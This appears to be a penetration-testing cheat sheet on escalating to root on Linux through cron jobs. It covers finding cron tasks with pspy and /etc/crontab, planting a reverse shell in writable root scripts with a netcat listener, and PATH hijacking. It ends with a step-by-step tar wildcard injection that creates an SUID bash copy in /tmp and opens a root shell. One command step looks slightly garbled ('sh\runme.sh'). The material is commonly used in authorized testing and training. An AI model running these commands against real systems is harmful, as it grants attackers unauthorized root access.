 ## Program to use: pspy https://github.com/DominicBreuker/pspy

### cat /etc/crontab

#### If we have write permissions on the script, we can modify it to enter a reverse shell in it that will automatically run as root.

### Reverse shell source:  Revshells https://revshells.com/

#### Open a listener then wait. 

#### Example: nc -lvnp PORT

### If the full path of the script is not defined in the cronjob, then we can create our own script with the same name and run based on the PATH variables in the /etc/crontab file.

### We can also abuse wildcards for certain cronjobs to gain root.

## Wildcard Injection example:

### If a cronjob contains a wildcard utilizing tar we can do:

#### 1) echo 'cp /bin/bash /tmp/bash; chmod u+s /tmp/bash' > runme.sh

#### 2) chmod +x runme.sh

#### 3) touch /tmp/--checkpoint=1

#### 4) touch /tmp/--checkpoint-action=exec=sh\runme.sh

#### 5) /tmp/bash -p

### Note: Do the injection in the correct directory the automated script goes to so that it can actually run the injected commands via tar
